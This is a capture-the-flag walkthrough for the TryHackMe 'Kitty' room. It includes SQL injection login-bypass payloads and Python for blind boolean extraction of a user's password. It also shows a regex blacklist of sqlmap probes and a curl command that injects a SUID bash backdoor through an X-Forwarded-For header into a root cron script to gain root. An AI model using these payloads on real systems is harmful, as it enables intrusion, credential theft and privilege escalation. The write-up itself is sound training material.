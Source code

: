 # Try Hack Me - Kitty

**Difficulty:** Medium  

Commands used in this guide use the exported variable $IP in place of the target machine's IP address.

## 1: Enumeration - nmap

Having launched the box, we run an nmap scan that finds two ports, 22 and 80 : 

```console
┌─[parrot@parrot]─[LOCAL_IP]─[~]
└──╼ $sudo nmap $IP
[...snip...]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Navigating to the site on 80 we find a "User Login" page and the option to create an account at `/register.php`. A gobuster scan on the site finds no other interesting endpoints and there are no obvious versions, plugins, etc. to target.

## 2. Web enumeration - sqli

After creating an account and logging in, we find a landing page that tells us "Our site is still in development!" - none of our provided input (username, etc.) is reflected on the page and there are no additional functionalities. This looks like a dead end. Our only option then is to find an exploit in the two available functionalities - logging in at `/index.php` and creating an account at `/register.php`.

Replacing the "username" and "password" params of our login request with an sqli polyglot `SLEEP(1) /*’ or SLEEP(1) or’” or SLEEP(1) or “*/` we are greeted with a new message : "SQL Injection detected. This incident will be logged!". We can presume then that the developers are checking the parameters against a blacklist and refusing anything that smells like an sqli exploit. Poking around a little more, we find that not all useful characters are blocked - after registering a user "bb", we can login with no password using the username `bb'-- -`, the `--` characters commenting out the password check. We can use the same method to enumerate other users - `admin'-- -` gives us nothing, but `kitty'-- -` logs in successfully.

## 3. Foothold - blind boolean-base sqli

So we have found a blind boolean-based sqli vulnerability. We are able to query the database and verify the result of our queries by checking the result of our login attempt - if we are logged in, our query had a True result, if out login fails then our query had a False result. We can develop this vulnerability to fully enumerate the database. For more information on the techniques used here, see [TryHackMe's guide in the SQL Injection room](https://tryhackme.com/r/room/sqlinjectionlm). Before starting, I should also mention that this exploit would be hugely optimised by applying a binary search to the output of SUBSTRING(), but I just couldn't get it working.

Enumerating the database char by char will take some time, so we need to automate the process. As explained in the TryHackMe guide cited above, the first step is to find a functioning UNION SELECT clause that will wrap our enumeration commands. After a few attempts the username `'UNION SELECT 1,1,1,1;-- -` successfully logs us in - our techique then will be to replace the last of these 1s with our enumeration command. And now, some python :

```py
PRINTABLE_CHARS = string.printable[:-6]
URL = 'http://10.10.147.100/index.php'
CMD_WRAPPER = 'UNION SELECT 1,1,1,{};'

def send_request(cmd: str) -> bool:
    creds = { 'username': f"'{CMD_WRAPPER.format(cmd)}-- -", 'password': ''}
    return 'Our site is still in development' in requests.post(URL, creds).text

def enum(cmd_format: str) -> bool:
    target = ''
    while True:
        for p in printable_chars:
            if p != '%':
                if send_request(cmd_format.format(target + p)):
                    target += p
                    print(target)
                    break
        else:
            break
    return target
```

The function `enum` iterates over the printable ASCII characters and inputs them into the `cmd_format` variable. When the resulting request triggers a successful login, it adds the discovered character to `target` and starts again. When it is has exhausted the final run of characters, it returns the discovered value. We can apply this function to enumerate first the database name, then the table names, the column names, and finally any interesting data. More python : 

```py
def enum_db_name() -> bool:
    return enum("1 where database() like '{}%'")

def enum_table_names() -> bool:
    table_name_probe = "1 FROM information_schema.tables WHERE table_schema = 'REDACTED' and table_name like '{}%'"
    return enum(table_name_probe)

def enum_column_names() -> bool:
    col_name_probe = "1 FROM information_schema.columns WHERE table_schema = 'REDACTED' and table_name = 'REDACTED' and COLUMN_NAME = 'REDACTED'"
    return send_request(col_name_probe)
```

These functions apply the `enum` function for each of our targets. Once we have the database name and the table names, guessing goes a long way - we can imagine, correctly, that our target table has "id", "password", and "username" columns, and our enumeration has already found that "kitty" is an existing user. With all this information in place, we can write a final exfiltration function that targets Kitty's password (note the use of BINARY here - the password, unlike the other data found so far, is case sensitive) : 

```py
def enum_password() -> bool:
    pwd_probe = "1 FROM REDACTED WHERE REDACTED='kitty' AND REDACTED like BINARY '{}%'"
    return enum(pwd_probe)
```

Obviously these are just snippets and you'll need to stitch them together on your own for a working exploit. Once you do, you'll have a password that gives you SSH access as the Kitty user : 

```
kitty@kitty:~$ id
uid=1000(kitty) gid=1000(kitty) groups=1000(kitty)
kitty@kitty:~$ ls
user.txt
```

The user flag is at `/home/kitty/user.txt`.

## 4. Host enumeration - pspy

With our foothold we can perform some basic host enumeration. We have kitty's password but they have no sudo rights. In `/var/www/` we find the application source code with credentials for the sql database, but it doesn't have any data that we haven't already found through the sqli exploit. Checking open ports with with `ss -tln` we find an application running on 127.0.0.1:8080, but curling it down it appears to be the same application we found on *:80.

Running out of ideas, we transfer [pspy](https://github.com/DominicBreuker/pspy) to the machine and find a cronjob running a script `/opt/log_checker.sh` as root (UID=0) :

```
2024/03/29 16:05:02 CMD: UID=0     PID=2618   | /bin/sh -c /usr/bin/bash /opt/log_checker.sh 
2024/03/29 16:05:02 CMD: UID=0     PID=2619   | /usr/bin/bash /opt/log_checker.sh 
```

The script is readable by kitty and seems to contain a fairly obvious command injection vulnerability, reading lines from the file `/var/www/development/logged` and passing them directly to `sh` :

```sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

Unfortunately `/var/www/development/logged` is not writeable by kitty, but from the surrounding context we can guess that this file logs IP addresses visiting the web application. This is confirmed by the source found at `/var/www/development/index.php` which writes the value of the X-Forward-For header to the `logged` file if the request triggers an sqli blacklist (based apparently on the probes used by sqlmap) : 

```php
// SQLMap 
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
        if (preg_match( $evilword, $username )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        }
```

If we can control the content of the X-Forwarded-For header we can trigger the blacklist and write a payload to `logged`, exploiting the command injection vulnerability found in `/opt/log_checker.sh`. Here is a exploit in curl - we set a password of `sleep` to trigger the blacklist and a SUID bash payload in the X-Forwarded-For header : 

`curl $IP/index.php -d 'password=sleep' -H 'X-Forwarded-For: ;cp /bin/bash /tmp/bckdr && chmod +s /tmp/bckdr;'`

This looks right and the application responds with 'SQL Injection detected. This incident will be logged!', but our payload is never written to `/var/www/development/logged`. So what's wrong? I spent more time on this step than i'd like to admit, but we already know that our target is in the `development` directory and that there is a second instance of the application running on 127.0.0.1:8080 - we are targeting the wrong instance! Modifying the payload to target the local instance and running it from our kitty foothold allows us to escalate to root : 

```
kitty@kitty:/var/www/development$ curl localhost:8080/index.php -d 'password=sleep' -H "X-Forwarded-For: ;cp /bin/bash /tmp/bckdr && chmod +s /tmp/bckdr;"
kitty@kitty:/var/www/development$ cat logged 
;cp /bin/bash /tmp/bckdr && chmod +s /tmp/bckdr;
kitty@kitty:/var/www/development$ /tmp/bckdr -p
bckdr-5.0# id
uid=1000(kitty) gid=1000(kitty) euid=0(root) egid=0(root) groups=0(root),1000(kitty)
```

The root flag is at `/root/root.txt`.
